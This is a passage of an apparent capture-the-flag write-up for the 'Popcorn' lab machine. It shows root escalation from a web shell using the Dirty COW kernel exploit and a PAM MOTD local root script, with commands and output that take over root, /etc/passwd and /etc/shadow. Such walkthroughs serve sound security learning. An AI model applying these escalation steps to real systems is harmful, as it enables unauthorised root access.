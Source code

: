 ### Privilege escalation to root
From linpeas, we notice that this machine is running on Linux version 2.6.31. This potentially means that the machine may be vulnerable to dirty cow exploit as dirty cow works on Linux versions <= 3.19.0-73.8

We will obtain the dirty cow exploit from searchsploit and transfer it to the our reverse shell. Afterwards, we will then compile the exploit and execute the exploit (Somehow, the cpp version of this exploit does not work properly on the machine). 

Executing the exploit will then create a new user firefart with root privileges.

```
www-data@popcorn:/$ su - firefart
su - firefart
Password: firefart

firefart@popcorn:~# id
id
uid=0(firefart) gid=0(root) groups=0(root)
```

### Obtaining root flag
```
firefart@popcorn:~# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
```

## Post-Exploitation
### Exploiting motd.legal-displayed

Using linpeas, we can discover that there is a motd.legal-displayed file in /home/george/.cache directory.

```
╔══════════╣ Files inside others home (limit 20)
/home/george/.bash_logout                                                                                             
/home/george/.bashrc
/home/george/torrenthoster.zip
/home/george/.cache/motd.legal-displayed
/home/george/.sudo_as_admin_successful
/home/george/user.txt
/home/george/.nano_history
/home/george/.mysql_history
/home/george/.profile
```

However, this exploits is slightly unstable, and we would need to ensure that the permissions in /var/www/.ssh is being set properly.

```
www-data@popcorn:/tmp$ chmod 700 /var/www/.ssh/
chmod 700 /var/www/.ssh/
www-data@popcorn:/tmp$ ./motd.sh
./motd.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor
```